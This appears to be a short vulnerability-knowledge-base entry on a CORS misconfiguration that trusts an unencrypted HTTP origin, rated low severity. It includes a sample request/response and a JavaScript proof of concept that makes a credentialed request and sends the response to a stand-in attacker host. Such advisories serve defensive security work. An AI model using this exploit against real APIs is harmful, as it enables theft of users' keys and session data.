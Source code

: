 # HTTP origin

## Description
Host allows resource sharing over an unencrypted connection (HTTP)

Risky trust dependency, a MITM attacker may steal HTTPS site secrets

**Severity**: Low

## Exploit 
Sniff requests made over the unencrypted channel.

### Example
**Vulnerable Implementation** 
```http
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: http://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://evil.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit requires that the respective JS script is hosted at `evil.com`
```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```
